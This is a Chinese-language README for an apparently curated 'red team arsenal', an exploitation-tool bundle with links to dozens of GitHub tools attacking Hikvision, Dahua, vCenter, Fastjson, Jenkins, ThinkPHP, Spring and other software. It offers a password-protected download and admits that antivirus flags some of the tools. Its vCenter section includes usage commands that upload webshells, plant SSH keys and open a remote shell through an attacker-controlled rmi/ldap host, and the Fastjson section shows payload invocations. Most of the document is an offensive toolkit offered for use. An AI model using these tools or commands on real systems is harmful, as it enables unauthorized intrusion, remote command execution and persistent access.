# 目录
红队武器库VulToolsKit漏洞利用工具合集整理，解压密码：LightDream，欢迎关注公众号：浅梦安全

V1.1下载链接：（因为文件太大了上传Github不太方便，所以就挂网盘了，）

夸克网盘「VulToolsKit漏洞利用工具合集.zip」链接：https://pan.quark.cn/s/59975ef47afa

百度网盘VulToolsKit漏洞利用工具合集.zip链接: 关注公众号：浅梦安全回复：VulToolsKitV1.1获取

```
海康威视Hikvision综合漏洞利用工具
大华Dahua综合漏洞利用工具
Nacos综合漏洞利用工具
Vcenter综合漏洞利用工具
Fastjson漏洞批量检测工具
Jenkins综合漏洞利用工具
Struts2全版本漏洞检测工具
Thinkphp综合漏洞利用工具
Spring综合漏洞利用工具
Shiro反序列化漏洞综合利用工具
若依RuoYi综合漏洞利用工具
Xxl-job漏洞利用工具
Jboss综合漏洞利用工具
Weblogic综合漏洞利用工具
Tomcat综合漏洞利用工具
帆软反序列化漏洞利用工具
云资产AK-SK利用管理工具
Confluence综合漏洞利用工具
数据库综合利用工具
DecryptTools综合加解密后渗透工具
互联网厂商API利用工具
OA综合漏洞利用工具
综合漏洞利用工具
Jeecg&Jeecg-boot框架漏洞利用工具
ActiveMqRCE漏洞利用工具
Geoserver漏洞利用工具
Jumpserver漏洞利用工具
禅道漏洞综合利用工具
Java漏洞利用工具
信息泄露利用工具
 Swagger API信息泄露利用工具
 Heapdump敏感信息提取工具
 .git泄漏利用工具
 SVN源代码利用工具
 .DS_Store文件泄露利用工具
 .cvs源代码泄露利用工具
 Webpack:安全检测的扫描工具
```


```
此合集所有工具都来源于互联网公开收集整理，请勿从事非法测试！！！
在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。
利用此工具集而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与原作者及收集者无关。
该仅供安全人员用于授权测试，请勿非法使用！！！
除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具集。 
您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。

注：工具集有些工具杀软会报毒，请自行判断是否存在后门，收集作者未加入任何后门！！！，建议在本地虚拟机中使用。
```

- 海康威视Hikvision综合漏洞利用工具
  - [MInggongK/Hikvision-: Hikvision综合漏洞利用工具 (github.com)](https://github.com/MInggongK/Hikvision-)
  - [charonlight/HikvisionExploitGUI: 海康威视漏洞综合利用工具(github.com)](https://github.com/charonlight/HikvisionExploitGUI)
  - [jorhelp/Ingram: 网络摄像头漏洞扫描工具  (github.com)](https://github.com/jorhelp/Ingram)
  - [Cuerz/CVE-2021-36260: 海康威视RCE漏洞 批量检测和利用工具 (github.com)](https://github.com/Cuerz/CVE-2021-36260)
  - [chrisjd20/hikvision_CVE-2017-7921_auth_bypass_config_decryptor. (github.com)](https://github.com/chrisjd20/hikvision_CVE-2017-7921_auth_bypass_config_decryptor)
- 大华Dahua综合漏洞利用工具
  - [MInggongK/dahuaExploitGUI: dahua综合漏洞利用工具 (github.com)](https://github.com/MInggongK/dahuaExploitGUI)
  - [mcw0/DahuaConsole: Dahua Console. (github.com)](https://github.com/mcw0/DahuaConsole)
- Nacos综合漏洞利用工具
  - [charonlight/NacosExploitGUI: Nacos漏洞综合利用GUI工具，集成了默认口令漏洞、SQL注入漏洞、身份认证绕过漏洞、反序列化漏洞的检测及其利用 (github.com)](https://github.com/charonlight/NacosExploitGUI)
  - [Conan924/NacosExploit: NacosExploit 命令执行 内存马等利用 (github.com)](https://github.com/Conan924/NacosExploit)
  - [h0ny/NacosExploit: Nacos 综合利用工具 (github.com)](https://github.com/h0ny/NacosExploit)
  - [p1d3er/GitNacosConfig: 一键获取Nacos所有配置文件 (github.com)](https://github.com/p1d3er/GitNacosConfig)
  - [HACK-THE-WORLD/nacos-poc (github.com)](https://github.com/HACK-THE-WORLD/nacos-poc)
- Vcenter综合漏洞利用工具
  - [W01fh4cker/VcenterKit: Vcenter综合渗透利用工具包 | Vcenter Comprehensive Penetration and Exploitation Toolkit (github.com)](https://github.com/W01fh4cker/VcenterKit)
  - [Schira4396/VcenterKiller: 一款针对Vcenter的综合利用工具，包含目前最主流的CVE-2021-21972、CVE-2021-21985以及CVE-2021-22005、One Access的CVE-2022-22954、CVE-2022-22972/31656以及log4j，提供一键上传webshell，命令执行或者上传公钥使用SSH免密连接 (github.com)](https://github.com/Schira4396/VcenterKiller)
- Fastjson漏洞批量检测工具
  - [c0ny1/FastjsonExploit: Fastjson vulnerability quickly exploits the framework（fastjson漏洞快速利用框架） (github.com)](https://github.com/c0ny1/FastjsonExploit)
  - [smallfox233/JsonExp: fastjson漏洞批量检测工具 (github.com)](https://github.com/smallfox233/JsonExp)
- Jenkins综合漏洞利用工具
  - [TheBeastofwar/JenkinsExploit-GUI: 一款Jenkins的综合漏洞利用工具 (github.com)](https://github.com/TheBeastofwar/JenkinsExploit-GUI)
  - [charonlight/JenkinsExploitGUI: Jenkins CLI 任意文件读取漏洞检查工具 (github.com)](https://github.com/charonlight/JenkinsExploitGUI)
  - [convisolabs/CVE-2024-43044-jenkins: Exploit for the vulnerability CVE-2024-43044 in Jenkins (github.com)](https://github.com/convisolabs/CVE-2024-43044-jenkins)
- Struts2全版本漏洞检测工具
  - [abc123info/Struts2VulsScanTools: 自动检测该URL是否存在S2-001、S2-005、S2-009、S2-013、S2-016、S2-019、S2-020/021、S2-032、S2-037、DevMode、S2-045/046、S2-052、S2-048、S2-053、S2-057、S2-061、S2相关log4j2十余种漏洞。 (github.com)](https://github.com/abc123info/Struts2VulsScanTools)
  - [shack2/Struts2VulsTools: Struts2系列漏洞检查工具 (github.com)](https://github.com/shack2/Struts2VulsTools)
- Thinkphp综合漏洞利用工具
  - [Lotus6/ThinkphpGUI: Thinkphp(GUI)漏洞利用工具，支持各版本TP漏洞检测，命令执行，getshell。 (github.com)](https://github.com/Lotus6/ThinkphpGUI)
  - [bewhale/thinkphp_gui_tools: ThinkPHP漏洞综合利用工具, 图形化界面, 命令执行, 一键getshell, 批量检测, 日志遍历, session包含,宝塔绕过 (github.com)](https://github.com/bewhale/thinkphp_gui_tools)
  - [zangcc/Aazhen-RexHa: 漏洞POC基本适用ThinkPHP全版本漏洞。 (github.com)](https://github.com/zangcc/Aazhen-RexHa)
- Spring综合漏洞利用工具
  - [charonlight/SpringExploitGUI: 一款Spring综合漏洞的利用工具，工具支持多个Spring相关漏洞的检测以及利用 (github.com)](https://github.com/charonlight/SpringExploitGUI)
  - [0x727/SpringBootExploit: 项目是根据LandGrey/SpringBootVulExploit清单编写，目的hvv期间快速利用漏洞、降低漏洞利用门槛。 (github.com)](https://github.com/0x727/SpringBootExploit)
  - [SummerSec/SpringExploit: 🚀 一款为了学习go而诞生的漏洞利用工具 (github.com)](https://github.com/SummerSec/SpringExploit)
  - [savior-only/Spring_All_Reachable: Spring漏洞综合利用工具 (github.com)](https://github.com/savior-only/Spring_All_Reachable)
- Shiro反序列化漏洞综合利用工具
  - [SummerSec/ShiroAttack2: shiro反序列化漏洞综合利用,包含（回显执行命令/注入内存马）修复原版中NoCC的问题 https://github.com/j1anFen/shiro_attack](https://github.com/SummerSec/ShiroAttack2)
  - [sma11new/Pyke-Shiro: 复杂请求下的Shiro反序列化利用工具 (github.com)](https://github.com/sma11new/Pyke-Shiro)
  - [altEr1125/ShiroAttack2: 一款针对Shiro550漏洞进行快速漏洞利用工具。 对 @SummerSec 大佬的项目https://github.com/SummerSec/ShiroAttack2 进行了一些改进。](https://github.com/altEr1125/ShiroAttack2)
  - [safe6Sec/ShiroExp: shiro综合利用工具 (github.com)](https://github.com/safe6Sec/ShiroExp)
  - [wyzxxz/shiro_rce_tool: shiro 反序列 命令执行辅助检测工具 (github.com)](https://github.com/wyzxxz/shiro_rce_tool)
  - [feihong-cs/ShiroExploit-Deprecated: Shiro550/Shiro721 一键化利用工具，支持多种回显方式 (github.com)](https://github.com/feihong-cs/ShiroExploit-Deprecated)
- 若依RuoYi综合漏洞利用工具
  - [若依漏洞综合利用工具 (qq.com)](https://mp.weixin.qq.com/s/HU1OqZ7YFGjfc4HE3M8tPA)
  - [charonlight/RuoYiExploitGUI: 若依最新定时任务SQL注入可导致RCE漏洞的一键利用工具 (github.com)](https://github.com/charonlight/RuoYiExploitGUI)
- Xxl-job漏洞利用工具
  - [charonlight/xxl-jobExploitGUI: xxl-job最新漏洞利用工具 (github.com)](https://github.com/charonlight/xxl-jobExploitGUI)
- Jboss综合漏洞利用工具
  - [https://mp.weixin.qq.com/s/O0sMwNHRZKn4G4uJC55YlQ](https://mp.weixin.qq.com/s/O0sMwNHRZKn4G4uJC55YlQ)
  - [https://github.com/fupinglee/JavaTools/tree/master/JBoss](https://github.com/fupinglee/JavaTools/tree/master/JBoss)
- Weblogic综合漏洞利用工具
  - [KimJun1010/WeblogicTool: WeblogicTool，GUI漏洞利用工具，支持漏洞检测、命令执行、内存马注入、密码解密等（深信服深蓝实验室天威战队强力驱动） (github.com)](https://github.com/KimJun1010/WeblogicTool)
- Tomcat综合漏洞利用工具
  - [tpt11fb/AttackTomcat: Tomcat常见漏洞GUI利用工具。CVE-2017-12615 PUT文件上传漏洞、tomcat-pass-getshell 弱认证部署war包、弱口令爆破、CVE-2020-1938 Tomcat AJP文件读取/包含 (github.com)](https://github.com/tpt11fb/AttackTomcat)
  - [errors11/TomcatVuln: Tomcat漏洞利用工具 (github.com)](https://github.com/errors11/TomcatVuln)
- 帆软反序列化漏洞利用工具
  - [7wkajk/Frchannel: 帆软bi反序列化漏洞利用工具 (github.com)](https://github.com/7wkajk/Frchannel)
  - [BambiZombie/FrchannelPlus: 帆软bi反序列化漏洞利用工具 (github.com)](https://github.com/BambiZombie/FrchannelPlus)
- 云资产AK-SK利用管理工具
  - [dark-kingA/cloudTools: 云资产管理工具 目前工具定位是云安全相关工具，目前是两个模块 云存储工具、云服务工具， 云存储工具主要是针对oss存储、查看、删除、上传、下载、预览等等 云服务工具主要是针对rds、服务器的管理，查看、执行命令、接管等等 (github.com)](https://github.com/dark-kingA/cloudTools)
  - [jdr2021/OSSFileBrowse: 存储桶遍历漏洞利用工具 (github.com)](https://github.com/jdr2021/OSSFileBrowse)
  - [CF 云环境利用框架使用手册 | T Wiki (teamssix.com)](https://wiki.teamssix.com/cf/)
  - [mrknow001/aliyun-accesskey-Tools: 阿里云accesskey利用工具 (github.com)](https://github.com/mrknow001/aliyun-accesskey-Tools)
- Confluence综合漏洞利用工具
  - [Lotus6/ConfluenceMemshell: Confluence CVE 2021，2022，2023 利用工具，支持命令执行，哥斯拉，冰蝎 内存马注入 (github.com)](https://github.com/Lotus6/ConfluenceMemshell)
- 数据库综合利用工具
  - [SafeGroceryStore/MDUT: MDUT - Multiple Database Utilization Tools (github.com)](https://github.com/SafeGroceryStore/MDUT)
  - [team-ide/teamide: Team IDE 集成MySql、Oracle、金仓、达梦、神通等数据库、SSH、FTP、Redis、Zookeeper、Kafka、Elasticsearch、Mongodb、小工具等管理工具 (github.com)](https://github.com/team-ide/teamide)
  - [r0oth3x49/ghauri: An advanced cross-platform tool that automates the process of detecting and exploiting SQL injection security flaws (github.com)](https://github.com/r0oth3x49/ghauri)
  - [攻防演练工具 | Oracle数据库getshell的另一种思路 - FreeBuf网络安全行业门户](https://www.freebuf.com/defense/405383.html)
  - [DeEpinGh0st/MDUT-Extend-Release: MDUT-Extend(扩展版本) (github.com)](https://github.com/DeEpinGh0st/MDUT-Extend-Release)
  - [Release v1.0.7 · 1n7erface/Template (github.com)](https://github.com/1n7erface/Template/releases/tag/v1.0.7)
  - [jas502n/oracleShell: oracle 数据库命令执行 (github.com)](https://github.com/jas502n/oracleShell)
  - [PostgreUtil数据库利用工具](https://mp.weixin.qq.com/s/0s6CTAjwd5-qN6IxupwC9w)
- DecryptTools综合加解密后渗透工具
  - [wafinfo/DecryptTools: DecryptTools-综合解密 (github.com)](https://github.com/wafinfo/DecryptTools)
- 互联网厂商API利用工具
  - [pykiller/API-T00L: 互联网厂商API利用工具。 (github.com)](https://github.com/pykiller/API-T00L)
  - [mrknow001/API-Explorer: API接口管理工具(目前内置微信公众号、微信小程序、企业微信、飞书、钉钉等) (github.com)](https://github.com/mrknow001/API-Explorer)
- OA综合漏洞利用工具
  - [MInggongK/Penetration-mining-src: 一款集成了H3C,致远，泛微，万户，帆软，海康威视，金蝶云星空，畅捷通，Struts等多个RCE漏洞利用工具 (github.com)](https://github.com/MInggongK/Penetration-mining-src)
  - [R4gd0ll/I-Wanna-Get-All: OA漏洞利用工具 (github.com)](https://github.com/R4gd0ll/I-Wanna-Get-All)
  - [achuna33/MYExploit: OAExploit一款基于产品的一键扫描工具。 (github.com)](https://github.com/achuna33/MYExploit)
  - [琴音安全红蓝对抗重点OA系统漏洞利用工具](https://mp.weixin.qq.com/s/1MEkYv5A47DJLCKqXKT0zQ)
  - [xiaokp7/TongdaOATool: 通达OA漏洞检测工具 (github.com)](https://github.com/xiaokp7/TongdaOATool)
  - [cseroad/Exp-Tools: 一款集成高危漏洞exp的实用性工具 (github.com)](https://github.com/cseroad/Exp-Tools)
  - [wgpsec/YongYouNcTool: 用友NC系列漏洞检测利用工具，支持一键检测、命令执行回显、文件落地、一键打入内存马、文件读取等 (github.com)](https://github.com/wgpsec/YongYouNcTool)
  - [Chave0v0/YONYOU-TOOL: 用友漏洞综合利用工具 (github.com)](https://github.com/Chave0v0/YONYOU-TOOL)
  - [White-hua/Apt_t00ls: 高危漏洞利用工具 (github.com)](https://github.com/White-hua/Apt_t00ls)
  - [ExpLangcn/HVVExploitApply: 遵守规章制度关闭项目-使用JAVAFX图形化界面检测对HVV中常见的重点CMS系统和OA系统的已公开的漏洞进行验证。 (github.com)](https://github.com/ExpLangcn/HVVExploitApply)
  - [lijiaxing1997/Gr33k: 图形化漏洞利用集成工具 (github.com)](https://github.com/lijiaxing1997/Gr33k)
- 综合漏洞利用工具
  - [pureqh/Hyacinth: 一款java漏洞集合工具 (github.com)](https://github.com/pureqh/Hyacinth)
  - [qianxiao996/FrameScan-GUI: FrameScan-GUI 一款python3和Pyqt编写的具有图形化界面的cms漏洞检测框架。 (github.com)](https://github.com/qianxiao996/FrameScan-GUI)
  - [f0ng/poc2jar: Java编写，Python作为辅助依赖的漏洞验证、利用工具，添加了进程查找模块、编码模块、命令模块、常见漏洞利用GUI模块、shiro rememberMe解密模块，加快测试效率 (github.com)](https://github.com/f0ng/poc2jar)
  - [Liqunkit/LiqunKit_: 下架 (github.com)](https://github.com/Liqunkit/LiqunKit_)
- Jeecg&Jeecg-boot框架漏洞利用工具
  - [K-7H7l/Jeecg_Tools: 本工具为jeecg框架漏洞利用工具非jeecg-boot！ (github.com)](https://github.com/K-7H7l/Jeecg_Tools)
  - [MInggongK/jeecg-: jeecg综合漏洞利用工具 (github.com)](https://github.com/MInggongK/jeecg-)
- ActiveMqRCE漏洞利用工具
  - [Hutt0n0/ActiveMqRCE: 用java实现构造openwire协议，利用activeMQ < 5.18.3 RCE 回显利用 内存马注入 (github.com)](https://github.com/Hutt0n0/ActiveMqRCE)
- Geoserver漏洞利用工具
  - [GeoServer 综合漏洞扫描工具V1.2 发布！ (qq.com)](https://mp.weixin.qq.com/s/2MjsLXM8wXRRl1PhXOfAig)
- Jumpserver漏洞利用工具
  - [tarihub/blackjump: JumpServer 堡垒机未授权综合漏洞利用, Exploit for CVE-2023-42442 / CVE-2023-42820 / RCE 2021 (github.com)](https://github.com/tarihub/blackjump)
- 禅道漏洞综合利用工具
  - [charonlight/ZentaoExploitGUI: 禅道最新身份认证绕过漏洞利用工具 (github.com)](https://github.com/charonlight/ZentaoExploitGUI)
- Java漏洞利用工具
  - [welk1n/JNDI-Injection-Exploit: JNDI注入测试工具(github.com)](https://github.com/welk1n/JNDI-Injection-Exploit)
  - [qi4L/JYso: It can be either a JNDIExploit or a ysoserial. (github.com)](https://github.com/qi4L/JYso)
  - [cckuailong/JNDI-Injection-Exploit-Plus: 80+ Gadgets(30 More than ysoserial). 一款JNDI注入利用工具，可以生成JNDI链接并启动后端相关服务。. (github.com)](https://github.com/cckuailong/JNDI-Injection-Exploit-Plus?tab=readme-ov-file)
  - [frohoff/ysoserial: A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization. (github.com)](https://github.com/frohoff/ysoserial)
  - [Y4er/ysoserial: ysoserial修改版，着重修改ysoserial.payloads.util.Gadgets.createTemplatesImpl使其可以通过引入自定义class的形式来执行命令、内存马、反序列化回显。 (github.com)](https://github.com/Y4er/ysoserial)
  - [frohoff/ysoserial: A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization. (github.com)](https://github.com/frohoff/ysoserial)
- 信息泄露利用工具
  - Swagger API信息泄露利用工具
    - [jayus0821/swagger-hack: 自动化爬取并自动测试所有swagger接口 (github.com)](https://github.com/jayus0821/swagger-hack)
    - [lijiejie/swagger-exp: A Swagger API Exploit (github.com)](https://github.com/lijiejie/swagger-exp)
  - Heapdump敏感信息提取工具
    - [wyzxxz/heapdump_tool: heapdump敏感信息查询工具，例如查找 spring heapdump中的密码明文，AK,SK等 (github.com)](https://github.com/wyzxxz/heapdump_tool)
    - [whwlsfb/JDumpSpider: HeapDump敏感信息提取工具 (github.com)](https://github.com/whwlsfb/JDumpSpider)
  - .git泄漏利用工具
    - [BugScanTeam/GitHack: .git 泄漏利用工具，可还原历史版本 (github.com)](https://github.com/BugScanTeam/GitHack)
  - SVN源代码利用工具
    - [admintony/svnExploit: SvnExploit支持SVN源代码泄露全版本Dump源码 (github.com)](https://github.com/admintony/svnExploit)
  - .DS_Store文件泄露利用工具
    - [lijiejie/ds_store_exp: A .DS_Store file disclosure exploit. It parses .DS_Store file and downloads files recursively. (github.com)](https://github.com/lijiejie/ds_store_exp)
  - .cvs源代码泄露利用工具
    - [kost/dvcs-ripper: Rip web accessible (distributed) version control systems: SVN/GIT/HG... (github.com)](https://github.com/kost/dvcs-ripper)
  - Webpack:安全检测的扫描工具
    - [zangcc/Aakian-FaCai: 基于前端vue框架的JavaFx图形化GUI漏洞扫描工具。 (github.com)](https://github.com/zangcc/Aakian-FaCai)
    - [rtcatc/Packer-Fuzzer: Packer Fuzzer is a fast and efficient scanner for security detection of websites constructed by javascript module bundler such as Webpack. (github.com)](https://github.com/rtcatc/Packer-Fuzzer)

# 海康威视 Hikvision 综合漏洞利用工具

## 项目地址

```
https://github.com/MInggongK/Hikvision-
```

## 项目介绍

```
海康威视综合漏洞利用工具 收录漏洞如下：
Hikvision 摄像头未授权访问漏洞
Hikvision 远程代码执行漏洞
Hikvision iVMS综合安防系统任意文件上传漏洞
Hikvision综合安防管理平台isecure center文件上传漏洞
Hikvision综合安防管理平台config信息泄露漏洞
Hikvision综合安防管理平台env信息泄漏漏洞
Hikvision综合安防管理平台report任意文件上传漏洞
Hikvision综合安防管理平台api session命令执行漏洞
Hikvision applyCT命令执行漏洞
Hikvision applyAutoLoginTicket命令执行漏洞
Hikvision keepAlive远程代码执行漏洞
Hikvision综合安防管理平台orgManage任意文件读取漏洞
Hikvision综合安防管理平台files任意文件读取漏洞
```



# Dahua 综合漏洞利用工具

## 项目地址

```
https://github.com/MInggongK/dahuaExploitGUI
```

## 项目介绍

```
Dhua综合漏洞利用工具 收录漏洞如下：

大华DSS数字监控系统attachment_clearTempFile.action注入漏洞
大华DSS数字监控系统远程命令执行漏洞
大华DSS数字监控系统itcBulletin注入漏洞
大华智慧园区综合管理平台信息泄露漏洞
大华智慧园区综合管理平台getNewStaypointDetailQuery注入漏洞
大华智慧园区综合管理平台clientserver注入
大华DSS user_edit.action信息泄露漏洞
大华智慧园区综合管理平台poi任意文件上传漏洞
大华智慧园区综合管理平台video任意文件上传漏洞
大华智慧园区综合管理平台emap任意文件上传漏洞
大华智慧园区综合管理平台searchJson注入漏洞
大华DSS数字监控系统attachment_getAttList.action注入漏洞
大华智能物联综合管理平台justForTest用户登录漏洞
大华智慧园区综合管理平台sendFaceInfo远程命令执行漏洞
大华智慧园区综合管理平台deleteFtp远程命令执行漏洞
大华EIMS-capture_handle远程命令执行漏洞
大华智能物联综合管理平台random远程命令执行漏洞
大华智慧园区综合管理平台ipms命令执行漏洞
```





# Nacos 综合漏洞利用工具

## 项目地址

```
https://github.com/charonlight/NacosExploitGUI
```

## 项目介绍

```
集成了默认口令漏洞、SQL注入漏洞、身份认证绕过漏洞、反序列化漏洞的检测及其利用
```











# Vcenter 综合漏洞利用工具

## 项目地址

```
https://github.com/Schira4396/VcenterKiller
```

```
https://github.com/W01fh4cker/VcenterKit
```

## 项目介绍

```
一款针对Vcenter的综合利用工具，包含目前最主流的CVE-2021-21972、CVE-2021-21985以及CVE-2021-22005、One Access的CVE-2022-22954、CVE-2022-22972/31656以及log4j，提供一键上传webshell，命令执行或者上传公钥使用SSH免密连接

go build -o main.exe

./main.exe -u https://192.168.1.1 -m 21985 -c whoami
./main.exe -u https://192.168.1.1 -m 22005 -f test.jsp
./main.exe -u https://192.168.1.1 -m 21972 -f test.jsp
./main.exe -u https://192.168.1.1 -m 21972 -f id_rsa.pub -t ssh //传公钥
./main.exe -u https://192.168.1.1 -m 21985 -t rshell -r rmi://xx.xx.xx.xx:1099/xx
./main.exe -u https://192.168.1.1 -m log4center -t scan // scan log4j
./main.exe -u https://192.168.1.1 -m log4center -t exec -r ldap://xx.xx.xx.xx:1389 -c whoami //也可以不指定ldap服务
./main.exe -u https://xx.xx.com -m 22954 whoami
./main.exe -u https://xx.xx.com -m 22972 //get cookie
./main.exe -u https://xx.xx.com -m 31656 //If CVE-2022-22972不能用就换CVE-2022-31656
```

```
Vcenter综合渗透利用工具包 | Vcenter Comprehensive Penetration and Exploitation Toolkit包含

信息收集模块
CVE-2021-21972模块
CVE-2021-21985模块
CVE-2021-22005模块
CVE-2022-22954模块
CVE-2022-22972模块
后渗透利用模块
渗透测试记事本(打vcenter的时候常用的命令、常看的文章)
```







# Fastjson 漏洞批量检测工具

## 项目地址

```
https://github.com/c0ny1/FastjsonExploit
```

```
https://github.com/smallfox233/JsonExp
```

## 项目介绍

```
FastjsonExploit是一个Fastjson漏洞快速漏洞利用框架，主要功能如下：

一键生成利用payload，并启动所有利用环境。
管理Fastjson各种payload（当然是立志整理所有啦，目前6个类，共11种利用及绕过）


.---- -. -. .  .   .
   ( .',----- - - ' '
    \_/      ;--:-\         __--------------------__
   __U__n_^_''__[. |ooo___  | |_!_||_!_||_!_||_!_| |
 c(_ ..(_ ..(_ ..( /,,,,,,] | |___||___||___||___| |
 ,_\___________'_|,L______],|______________________|
/;_(@)(@)==(@)(@)   (o)(o)      (o)^(o)--(o)^(o)

FastjsonExploit is a Fastjson library vulnerability exploit framework
                Author:c0ny1<root@gv7.me>


Usage: java -jar Fastjson-[version]-all.jar [payload] [option] [command]
Exp01: java -jar FastjsonExploit-[version].jar JdbcRowSetImpl1 rmi://127.0.0.1:1099/Exploit "cmd:calc"
Exp02: java -jar FastjsonExploit-[version].jar JdbcRowSetImpl1 ldap://127.0.0.1:1232/Exploit "code:custom_code.java"
Exp03: java -jar FastjsonExploit-[version].jar TemplatesImpl1 "cmd:calc"
Exp04: java -jar FastjsonExploit-[version].jar TemplatesImpl1 "code:custom_code.java"

Available payload types:
    Payload                PayloadType VulVersion      Dependencies                                  
    -------                ----------- ----------      ------------                                  
    BasicDataSource1       local       1.2.2.1-1.2.2.4 tomcat-dbcp:7.x, tomcat-dbcp:9.x, commons-dbcp:1.4
    BasicDataSource2       local       1.2.2.1-1.2.2.4 tomcat-dbcp:7.x, tomcat-dbcp:9.x, commons-dbcp:1.4
    JdbcRowSetImpl1        jndi        1.2.2.1-1.2.2.4                                               
    JdbcRowSetImpl2        jndi        1.2.2.1-1.2.4.1 Fastjson 1.2.41 bypass                        
    JdbcRowSetImpl3        jndi        1.2.2.1-1.2.4.3 Fastjson 1.2.43 bypass                        
    JdbcRowSetImpl4        jndi        1.2.2.1-1.2.4.2 Fastjson 1.2.42 bypass                        
    JdbcRowSetImpl5        jndi        1.2.2.1-1.2.4.7 Fastjson 1.2.47 bypass                        
    JndiDataSourceFactory1 jndi        1.2.2.1-1.2.2.4 ibatis-core:3.0                               
    SimpleJndiBeanFactory1 jndi        1.2.2.2-1.2.2.4 spring-context:4.3.7.RELEASE                  
    TemplatesImpl1         local       1.2.2.1-1.2.2.4 xalan:2.7.2(need Feature.SupportNonPublicField)   
    TemplatesImpl2         local       1.2.2.1-1.2.2.4 xalan:2.7.2(need Feature.SupportNonPublicField)  
```

```
1. 根据现有payload，检测目标是否存在fastjson或jackson漏洞（工具仅用于检测漏洞、定位payload）
2. 若存在漏洞，可根据对应payload进行后渗透利用
3. 若出现新的漏洞时，可将最新的payload新增至txt中（需修改格式）
4. 工具无法完全替代手工检测，仅作为辅助工具使用
JsonExp.exe -h
usage: -u [目标] -l [LDAP地址]
usage: -uf [url.txt] -l [LDAP地址]
usage: -req [request.txt] -l [LDAP地址]

       [-h] [-uf URLFILE] [-u URL] [-req REQUEST] [-to TIMEOUT] [-f FILE] [-t TYPE] [-c COOKIE] [-l LDAP] [-r RMI]
       [-pro PROTOCOL] [-proxy PROXY]

功能：批量检测是否存在fastjson/jackson漏洞（未使用-f时，默认检测fastjson）

optional arguments:
  -h, --help            show this help message and exit
  -uf URLFILE, --urlfile URLFILE
                        [可选] 指定批量目标（文本路径）
  -u URL, --url URL     [可选] 指定目标
  -req REQUEST, --request REQUEST
                        [可选] 指定请求包，默认为http协议发送请求
  -to TIMEOUT, --timeout TIMEOUT
                        [非必须] 指定请求超时时长，默认为5秒
  -f FILE, --file FILE  [非必须] 指定payload（文本路径），默认为template/fastjson.txt
  -t TYPE, --type TYPE  [非必须] 指定请求类型为get或post，默认为post
  -c COOKIE, --cookie COOKIE
                        [非必须] 设置cookie值，默认为空
  -l LDAP, --ldap LDAP  [可选] 指定ldap地址，ip:端口/路径 或 域名:端口/路径
  -r RMI, --rmi RMI     [可选] 指定rmi地址，ip:端口 或 域名:端口
  -pro PROTOCOL, --protocol PROTOCOL
                        [可选] 指定请求包的协议类型，需结合-req参数使用，默认为http
  -proxy PROXY, --proxy PROXY
                        [可选] 设置代理，例：--proxy http://127.0.0.1:8080
```

# Jenkins 综合漏洞利用工具

## 项目地址

```
https://github.com/TheBeastofwar/JenkinsExploit-GUI
```

## 项目介绍

```
支持检测:
CVE-2015-8103/CVE-2016-0788 Jenkins 反序列化远程代码执行 https://github.com/Medicean/VulApps/tree/master/j/jenkins/1
CVE-2016-0792 Jenkins XStream反序列化远程代码执行 https://github.com/jpiechowka/jenkins-cve-2016-0792
CVE-2017-1000353 Jenkins-CI 远程代码执行漏洞 https://github.com/vulhub/CVE-2017-1000353
CVE-2018-1000600 Jenkins GitHub SSRF+信息泄露
CVE-2018-1000861 Jenkins 绕过Groovy沙盒未授权命令执行漏洞 https://github.com/orangetw/awesome-jenkins-rce-2019
CVE-2018-1999002 Jenkins 任意文件读取 https://mp.weixin.qq.com/s/MOKeN1qEBonS8bOLw6LH_w
CVE-2019-1003000 Jenkins 远程代码执行 https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc
CVE-2019-1003005/CVE-2019-1003029 远程代码执行(Script Security Plugin沙箱绕过) https://github.com/orangetw/awesome-jenkins-rce-2019
CVE-2024-23897 Jenkins CLI 接口任意文件读取漏洞 https://github.com/vulhub/vulhub/blob/master/jenkins/CVE-2024-23897
```


# Struts2 全版本漏洞检测工具

## 项目地址

```
https://github.com/abc123info/Struts2VulsScanTools
```

## 项目介绍

```
1、点击“检测漏洞”，会自动检测该URL是否存在S2-001、S2-005、S2-009、S2-013、S2-016、S2-019、S2-020/021、S2-032、S2-037、DevMode、S2-045/046、S2-052、S2-048、S2-053、S2-057、S2-061、S2相关log4j2十余种漏洞。

2、“批量验证”，（为防止批量geshell，此功能已经删除，并不再开发）。

3、S2-020、S2-021仅提供漏洞扫描功能，因漏洞利用exp很大几率造成网站访问异常，本程序暂不提供。

4、对于需要登录的页面，请勾选“设置全局Cookie值”，并填好相应的Cookie，程序每次发包都会带上Cookie。

5、作者对不同的struts2漏洞测试语句做了大量修改，执行命令、上传功能已经能通用。

6、支持GET、POST、UPLOAD三种请求方法，您可以自由选择。（UPLOAD为Multi-Part方式提交）

7、部分漏洞测试支持UTF-8、GB2312、GBK编码转换。

8、每次操作都启用一个线程，防止界面卡死。
```



# Thinkphp 综合漏洞利用工具

## 项目地址

```
https://github.com/Lotus6/ThinkphpGUI
```

```
https://github.com/bewhale/thinkphp_gui_tools
```

## 项目介绍

```
Thinkphp(GUI)漏洞利用工具，支持各版本TP漏洞检测，命令执行，getshell。
支持版本：（检查，命令执行，getshell）
ThinkPHP 5.0 RCE
ThinkPHP 5.0.10 RCE
ThinkPHP 5.0.22/5.1.29 RCE
ThinkPHP 5.0.23 RCE
ThinkPHP 5.0.24-5.1.30 RCE
ThinkPHP 3.x RCE
ThinkPHP 5.x 数据库信息泄露
ThinkPHP5.x日志泄露
ThinkPHP3.x日志泄露
ThinkPHP 3.x 日志包含RCE
Thinkphp6.x日志泄漏
```



```
ThinkPHP漏洞综合利用工具, 图形化界面, 命令执行, 一键getshell, 批量检测, 日志遍历, session包含,宝塔绕过
支持大部分ThinkPHP漏洞检测,整合20多个payload
支持部分漏洞执行命令
支持单一漏洞批量检测
支持TP3和TP5自定义路径日志遍历
支持部分漏洞一键GetShell
支持设置代理和UA
```


# Spring 综合漏洞利用工具

## 项目地址

```
https://github.com/charonlight/SpringExploitGUI
```

```
https://github.com/0x727/SpringBootExploit
```

## 项目介绍

```
工具目前支持
Spring Cloud Gateway RCE(CVE-2022-22947)
Spring Cloud Function SpEL RCE (CVE-2022-22963)
Spring Framework RCE (CVE-2022-22965) 
